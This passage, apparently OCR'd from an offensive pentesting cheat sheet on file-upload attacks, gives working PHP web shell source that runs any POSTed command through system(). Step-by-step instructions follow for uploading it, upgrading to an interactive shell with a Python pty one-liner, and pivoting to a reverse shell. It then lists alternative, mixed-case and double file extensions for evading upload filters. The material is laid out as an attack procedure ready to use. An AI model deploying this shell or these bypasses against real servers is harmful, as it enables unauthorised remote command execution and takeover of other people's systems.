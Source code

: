     3. **Advanced command shell with output formatting**:
       - Step 1: Create a more sophisticated shell:
       ```php
       <?php
       if(isset($_POST['cmd'])) {
           echo "<pre>";
           $cmd = ($_POST['cmd']);
           system($cmd);
           echo "</pre>";
       }
       ?>
       <form method="post">
       <input type="text" name="cmd" size="50">
       <input type="submit" value="Execute">
       </form>
       ```
       - Step 2: Upload the file to get a web-based command interface
       - Step 3: Use the form to execute commands with formatted output
       - Step 4: Leverage this shell to establish a more stable connection
       - Step 5: Pivot to a full reverse shell if possible
       - Example: Use `python -c 'import pty;pty.spawn("/bin/bash")'` for a better shell experience

  - **Bypassing extension filters**
    1. **Using alternative extensions**:
       - Step 1: Identify which extensions are being blocked
       - Step 2: Try alternative extensions for the same language:
         - PHP: `.php`, `.php2`, `.php3`, `.php4`, `.php5`, `.php7`, `.phps`, `.phpt`, `.pht`, `.phtml`, `.pgif`
         - ASP: `.asp`, `.aspx`, `.ashx`, `.asmx`, `.aspq`, `.axd`, `.cshtm`, `.cshtml`
         - JSP: `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
       - Step 3: Upload file with alternative extension
       - Step 4: Access the file to verify execution
       - Step 5: If blocked, try another extension from the list
       - Example: Rename `shell.php` to `shell.phtml` and upload again

    2. **Manipulating file extension case**:
       - Step 1: Test case-sensitivity of the filter
       - Step 2: Try mixed-case versions of blocked extensions:
         - `shell.pHp`
         - `shell.PhP`
         - `shell.pHP`
       - Step 3: Upload file with case-manipulated extension
       - Step 4: Access the file to check if it executes
       - Step 5: Try different case combinations if needed
       - Example: Change `shell.php` to `shell.pHp` to bypass case-sensitive filters

    3. **Double extension technique**:
       - Step 1: Add an allowed extension after the blocked one:
         - `shell.php.jpg`
         - `shell.php.png`
         - `shell.php.gif`
       - Step 2: Try adding the blocked extension after an allowed one:
         - `shell.jpg.php`
         - `shell.png.php`
       - Step 3: Upload the file with double extension
       - Step 4: Check if the server processes the file based on the last or first extension
       - Step 5: Access the file to verify execution
       - Example: Rename `shell.php` to `shell.php.jpg` if the filter only checks for the last extension
